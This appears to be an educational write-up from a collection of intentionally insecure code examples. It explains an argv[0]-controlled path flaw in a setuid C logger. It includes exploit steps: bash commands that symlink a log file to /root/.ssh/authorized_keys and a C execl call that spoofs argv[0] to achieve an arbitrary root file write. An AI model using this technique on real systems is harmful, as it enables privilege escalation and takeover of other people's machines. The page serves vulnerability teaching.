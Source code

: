# Contents

- [privilege_escalation.c](#privilege_escalationc)

&nbsp;

## [privilege_escalation.c](../../examples/insecure/c/privilege_escalation.c)
Path: `/examples/insecure/c/privilege_escalation.c`

### Explanation

In lines 22-23, the program gains **root privileges** via `setuid(0)` and `seteuid(0)`. However in line 25, the `logger_path` variable is derived from `argv[0]`:

**Issue:** argv[0] is controlled by the user invoking the program.  
If executed as `execl("/opt/logger/bin/loggerctl", "/tmp/fake_path", "rotate", NULL);`,  
**logger_path** resolves to **/tmp/fake_path**'s parent directory.

#### **Arbitrary File Write via Symlink**
Prepare a fake directory structure
```bash
mkdir -p /tmp/fakedir/{bin,logs}
cd /tmp/fakedir/logs
echo "malware" > global.log 
ln -s /root/.ssh/authorized_keys global-$(date -u +"%FT%T").log  # Create a symlink
```
Execute the program with a fake path
```c
#include <unistd.h>
int main() {
    // Set argv[0] to /tmp/fakedir/bin/loggerctl
    execl("/opt/logger/bin/loggerctl", "/tmp/fakedir/bin/loggerctl", "rotate", NULL);
}
```
Trigger the `rotate_log()` function
```c
snprintf(log_old, "...", "%s/../logs/global.log", logger_path); // /tmp/fakedir/logs/global.log
snprintf(log_new, "...", "%s/../logs/global-...log", logger_path); // /tmp/fakedir/logs/global-2025-02-19T11:34:12.log
execl("/bin/cp", "/bin/cp", "-a", log_old, log_new, NULL); // cp -a /tmp/fakedir/logs/global.log /tmp/fakedir/logs/global-2025-02-19T11:34:12.log
```
- **Outcome:** The contents of `global.log` are copied to the **`/root/.ssh/authorized_keys`** file via the symlink.

### **Impact**
- **Arbitrary File Write as Root:** Attacker can overwrite critical system files like `/etc/passwd`, `/etc/sudoers` or inject SSH keys.
- **Privilege Escalation:** A low-privileged user can gain full root access. This vulnerability arises from **uncontrolled `argv[0]` manipulation** and `cp` following **symlinks**. 

&nbsp;
